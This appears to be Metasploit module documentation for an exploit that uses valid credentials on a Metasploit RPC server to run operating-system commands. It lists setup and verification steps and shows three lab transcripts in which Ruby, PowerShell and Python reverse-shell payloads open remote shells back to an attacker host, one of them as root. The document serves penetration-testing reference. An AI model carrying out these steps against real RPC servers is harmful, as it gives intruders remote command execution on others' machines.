## Description

  This module connects to a specified Metasploit RPC server and uses the *console.write* procedure to execute operating system commands. Valid credentials are required to access the RPC interface.


## Vulnerable Application

  [Metasploit](https://www.rapid7.com/products/metasploit/) is the world's most used penetration testing software. The RPC API can be used to programmatically drive the Metasploit Framework and Metasploit Pro products.

  To start the RPC service, run `msfrpcd -U msf -P abc123`; or run `load msgrpc ServerHost=0.0.0.0 ServerPort=55552 User=msf Pass=abc123 SSL=Y` from within msfconsole.

  This module has been tested successfully on:

  * Metasploit 4.15 on Kali 1.0.6
  * Metasploit 4.14 on Kali 2017.1
  * Metasploit 4.14 on Windows 7 SP1

  Source and Installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://docs.metasploit.com/docs/development/maintainers/downloads-by-version.html)

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/misc/msf_rpc_console`
  3. Do: `set RHOST [IP]`
  4. Do: `set RPORT [PORT]` (default: `55552`)
  5. Do: `set USERNAME [USERNAME]` (default: `msf`)
  6. Do: `set PASSWORD [PASSWORD]`
  7. Do: `set LHOST [IP]`
  8. Do: `run`
  9. You should get a session


## Options

### Username

  The username for Metasploit RPC (default: `msf`).

### Password

  The password for the RPC user.


## Scenarios

### Ruby Target

  ```
  msf > use exploit/multi/misc/msf_rpc_console
  msf exploit(msf_rpc_console) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(msf_rpc_console) > set username msf
  username => msf
  msf exploit(msf_rpc_console) > set password abc123
  password => abc123
  msf exploit(msf_rpc_console) > set lhost 172.16.191.181
  lhost => 172.16.191.181
  msf exploit(msf_rpc_console) > set target 0
  target => 0
  msf exploit(msf_rpc_console) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444
  [+] 172.16.191.166:55552 - Authenticated successfully
  [*] 172.16.191.166:55552 - Metasploit 4.14.28-dev
  [*] 172.16.191.166:55552 - Ruby 2.3.3 x64-mingw32 2016-11-21
  [*] 172.16.191.166:55552 - API version 1.0
  [+] 172.16.191.166:55552 - Created console #0
  [*] 172.16.191.166:55552 - Sending payload...
  [*] Command shell session 1 opened (172.16.191.181:4444 -> 172.16.191.166:52984) at 2017-07-05 03:40:50 -0400

  whoami
  win-sgbsd5tqutq\user
  ```

### Windows CMD Target

  ```
  msf > use exploit/multi/misc/msf_rpc_console
  msf exploit(msf_rpc_console) > set rhost 172.16.191.166
  rhost => 172.16.191.166
  msf exploit(msf_rpc_console) > set username msf
  username => msf
  msf exploit(msf_rpc_console) > set password abc123
  password => abc123
  msf exploit(msf_rpc_console) > set lhost 172.16.191.181
  lhost => 172.16.191.181
  msf exploit(msf_rpc_console) > set target 0
  target => 1
  msf exploit(msf_rpc_console) > set payload cmd/windows/powershell_reverse_tcp
  payload => cmd/windows/powershell_reverse_tcp
  msf exploit(msf_rpc_console) > run

  [*] Started reverse SSL handler on 172.16.191.181:4444
  [+] 172.16.191.166:55552 - Authenticated successfully
  [*] 172.16.191.166:55552 - Metasploit 4.14.28-dev
  [*] 172.16.191.166:55552 - Ruby 2.3.3 x64-mingw32 2016-11-21
  [*] 172.16.191.166:55552 - API version 1.0
  [+] 172.16.191.166:55552 - Created console #1
  [*] 172.16.191.166:55552 - Sending payload...
  [*] Powershell session session 2 opened (172.16.191.181:4444 -> 172.16.191.166:52996) at 2017-07-05 03:44:05 -0400

  Windows PowerShell running as user user on WIN-SGBSD5TQUTQ
  Copyright (C) 2015 Microsoft Corporation. All rights reserved.

  PS C:\metasploit>whoami
  win-sgbsd5tqutq\user
  ```

### Unix CMD Target

  ```
  msf > use exploit/multi/misc/msf_rpc_console
  msf exploit(msf_rpc_console) > set rhost 172.16.191.215
  rhost => 172.16.191.215
  msf exploit(msf_rpc_console) > set username msf
  username => msf
  msf exploit(msf_rpc_console) > set password abc123
  password => abc123
  msf exploit(msf_rpc_console) > set lhost 172.16.191.181
  lhost => 172.16.191.181
  msf exploit(msf_rpc_console) > set target 2
  target => 2
  msf exploit(msf_rpc_console) > set payload cmd/unix/reverse_python
  payload => cmd/unix/reverse_python
  msf exploit(msf_rpc_console) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444
  [+] 172.16.191.215:55552 - Authenticated successfully
  [*] 172.16.191.215:55552 - Metasploit 4.15.0-dev-aceeedc
  [*] 172.16.191.215:55552 - Ruby 2.3.0 x86_64-linux 2015-12-25
  [*] 172.16.191.215:55552 - API version 1.0
  [+] 172.16.191.215:55552 - Created console #0
  [*] 172.16.191.215:55552 - Sending payload...
  [*] Command shell session 3 opened (172.16.191.181:4444 -> 172.16.191.215:40768) at 2017-07-05 03:46:11 -0400

  id
  uid=0(root) gid=0(root) groups=0(root)
  ```

